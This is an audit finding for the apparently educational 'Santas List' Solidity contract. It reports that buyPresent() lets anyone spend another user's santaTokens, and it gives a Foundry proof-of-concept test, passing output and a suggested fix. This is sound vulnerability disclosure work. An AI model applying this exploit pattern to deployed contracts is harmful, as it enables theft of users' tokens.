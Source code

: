 ## [H1] buyPresent() are not working as expected

### Severity

High Risk

### Date Modified

Dec 5th, 2023

### Summary

According to the documentation, the idea behind buyPresent() is that a user with ERC20 santaTokens uses them to buy a present, i.e. an ERC721 santaList NFT.

But as it is built, anyone can use other users' santaTokens to buy presents for their own account.

### Vulnerability Details (PoC)

In this PoC, the Grinch (previously added as a user) will use the user's santaToken to buy himself a present.

```
function test_incorrectBuyPresent() external {
        // 1. Santa add user to the extra_nice list
        vm.startPrank(santa);
        santasList.checkList(user, SantasList.Status.EXTRA_NICE);
        santasList.checkTwice(user, SantasList.Status.EXTRA_NICE);
        vm.stopPrank();

        vm.warp(santasList.CHRISTMAS_2023_BLOCK_TIME() + 1);

        // 2. user collect present: NFT = 1; santaToken = 1e18
        vm.startPrank(user);
        santasList.collectPresent();
        assertEq(santasList.balanceOf(user), 1);
        assertEq(santaToken.balanceOf(user), 1e18);
        vm.stopPrank();

        // 3. grinch use the user santaToken to by a present to himself
        vm.prank(grinch);
        santasList.buyPresent(user);
        assertEq(santasList.balanceOf(grinch), 1);
        assertEq(santaToken.balanceOf(user), 0);
    }
```

```
➜  2023-11-Santas-List git:(main) ✗ forge test --mt test_incorrectBuyPresent
[⠢] Compiling...
[⠔] Compiling 1 files with 0.8.22
[⠒] Solc 0.8.22 finished in 1.23s
Compiler run successful!

Running 1 test for test/unit/SantasListTest.t.sol:SantasListTest
[PASS] test_incorrectBuyPresent() (gas: 206174)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.73ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
➜  2023-11-Santas-List git:(main) ✗
```

### Impact

Anyone can stole other users santaTokens to buy presents. No aprove nedeed.

### Tools Used

Manual, foundry

### Recommendations

Some information about this function is confusing and needs more explanation from the development team, but in order to achieve a certain level of expected behaviour, we can try this function:

```
function buyPresent(address presentReceiver) external {
        require(i_santaToken.balanceOf(msg.sender) >= 1e18, "You do not have santaTokens");
        i_santaToken.burn(msg.sender);
        _mintAndIncrement();
        _transfer(msg.sender, presentReceiver, s_tokenCounter - 1);
    }

```

Test:

```
function test_correctOptionForBuyPresent() external {
        // 1. Santa add user to the extra_nice list
        vm.startPrank(santa);
        santasList.checkList(user, SantasList.Status.EXTRA_NICE);
        santasList.checkTwice(user, SantasList.Status.EXTRA_NICE);
        vm.stopPrank();

        vm.warp(santasList.CHRISTMAS_2023_BLOCK_TIME() + 1);

        // 2. user collect present: NFT = 1; santaToken = 1e18
        vm.startPrank(user);
        santasList.collectPresent();
        assertEq(santasList.balanceOf(user), 1);
        assertEq(santaToken.balanceOf(user), 1e18);
        vm.stopPrank();

        // 3. user buy a present for his mate
        vm.prank(user);
        santasList.buyPresent(mate);
        assertEq(santasList.balanceOf(mate), 1);
        assertEq(santaToken.balanceOf(user), 0);
    }
```

```
➜  2023-11-Santas-List git:(main) ✗ forge test --mt test_correctOptionForBuyPresent
[⠢] Compiling...
No files changed, compilation skipped

Running 1 test for test/unit/SantasListTest.t.sol:SantasListTest
[PASS] test_correctOptionForBuyPresent() (gas: 213008)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.51ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
➜  2023-11-Santas-List git:(main) ✗
```

